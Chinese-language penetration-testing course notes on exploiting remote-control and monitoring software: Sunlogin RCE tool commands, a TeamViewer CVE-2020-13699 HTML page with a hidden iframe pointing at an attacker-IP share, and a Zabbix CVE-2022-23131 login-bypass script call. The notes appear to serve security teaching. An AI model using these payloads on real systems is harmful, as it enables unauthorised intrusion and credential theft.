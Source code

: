 \#知识点：

1、远程控制-第三方应用安全

2、三方应用-向日葵&VNC&TV

3、设备平台-Zabbix&Kibana漏洞

\#章节内容：

常见服务应用的安全测试：

1、配置不当-未授权访问

2、安全机制-特定安全漏洞

3、安全机制-弱口令爆破攻击

## 向日葵 RCE

https://github.com/Mr-xn/sunlogin_rce

```
xrkRce.exe -h 192.168.46.157 -t scan
xrkRce.exe -h 192.168.46.157 -t rce -p 49712 -c "ipconfig"
```

```
-Teamviewer
<!DOCTYPE html>
<html>
<head>
    <title>cve-2020-13699</title>
</head>
<body>
    <p>Welcome to xiaodi!</p>
    <iframe style="height:1px;width:1px;" src='teamviewer10: --play \\attacker-IP\share\fake.tvs'></iframe>
</body>
</html>
```

## Zabbix-CVE-2022-23131

Zabbix 是由Alexei Vladishev 开发的一种网络监视、管理系统，基于 Server-Client 架构。是一款服务器监控软件，其由server、agent、web等模块组成，其中web模块由PHP编写，用来显示数据库中的结果。默认端口：10051

Zabbix CVE-2022-23131 登录绕过漏洞复现

https://github.com/L0ading-x/cve-2022-23131

```
python3 zabbix.py target Admin
```

然后修改Cookie，使用saml登录即可

## Kibana-CVE-2019-7609
